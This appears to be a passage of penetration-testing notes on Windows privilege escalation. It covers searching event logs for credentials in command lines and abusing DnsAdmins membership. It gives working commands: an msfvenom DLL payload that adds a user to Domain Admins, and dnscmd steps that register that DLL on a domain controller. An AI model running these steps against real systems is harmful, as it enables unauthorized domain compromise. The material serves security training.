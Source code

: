 We can also specify alternate credentials for wevtutil using the parameters `/u` and `/p`:
```console
C:\zeropio> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

For searching security logs:
```console
PS C:\zeropio> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

## DnsAdmins 

Members of the DnsAdmins group have access to DNS information on the network. The DNS service runs as **NT AUTHORITY\SYSTEM**. The following attack can be performed when DNS is run on a Domain Controller:
- DNS management is performed over RPC 
- ServerLevelPluginDll allows us to load a custom DLL with zero verification of the DLL's path (`dnscmd`)
- When a member of the DnsAdmins group runs the `dnscmd` command below, the **HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll** registry key is populated
- When the DNS service is restarted, the DLL in this path will be loaded
- An attacker can load a custom DLL to obtain a reverse shell or even load a tool

### Leveraging DnsAdmins Access

We can generate a malicious DLL to send us a reverse shell using msfvenom:
```console
zero@pio$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

Download in the target, and load the DLL as non-privileged user:
```console
C:\zeropio> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

Attempting to execute this command as a normal user isn't successful. Only members of the **DnsAdmins** group are permitted to do this. Loading DLL as member of the DnsAdmins:
```console
C:\zeropio> Get-ADGroupMember -Identity DnsAdmins
```

After confirming group membership in the DnsAdmins group, we can re-run the command to load a custom DLL:
```console
C:\zeropio> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

> We must specify the full path to our custom DLL or the attack will not work properly.
{: .prompt-info}

First, we need our user's SID:
```console
C:\zeropio> wmic useraccount where name="netadm" get sid
```
